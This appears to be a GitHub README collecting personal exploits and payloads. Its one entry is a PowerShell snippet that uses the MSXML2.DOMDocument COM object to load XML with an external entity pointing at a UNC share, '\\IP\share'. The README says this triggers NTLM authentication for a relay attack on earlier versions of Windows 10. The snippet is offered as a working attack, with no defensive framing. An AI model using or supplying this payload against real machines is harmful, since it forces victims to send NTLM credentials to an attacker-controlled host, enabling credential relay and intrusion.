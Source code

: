 ## My random exploits / payloads

### ntlm relay attack via XXE utilizing COM object MSXML2.DOMDocument (Thanks to @[Frostb1te](https://twitter.com/frostb1ten) for helping me learn about ntlm relay)

- Works on earlier version of Windows 10
```
$xxe=New-Object -ComObject MSXML2.DOMDocument
$xxe.loadXML("<!DOCTYPE test [<!ENTITY xxe SYSTEM '\\IP\share'>]><root><test>&xxe;</test></root>")
```
